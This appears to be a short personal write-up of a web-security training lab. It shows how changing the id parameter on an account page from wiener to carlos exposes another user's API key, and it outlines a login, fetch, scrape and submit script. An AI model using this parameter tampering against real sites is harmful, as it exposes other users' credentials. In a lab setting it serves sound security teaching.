 This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.

You can log in to your own account using the following credentials: `wiener:peter`

---

Goal: obtain api key for carlos

My account page has a vulnerable id parameter allowing me to change user by simply changing: `/my-account?id=wiener` to `/my-account?id=carlos`

script details

POST /login
- User data
GET /my-account?id=carlos
- grab with soup: `Your API Key is: ZcDIi1RVndT5rEntdTV9nCsmKRnd05mA`
POST /submitSolution
- Data: `answer=ZcDIi1RVndT5rEntdTV9nCsmKRnd05mA`

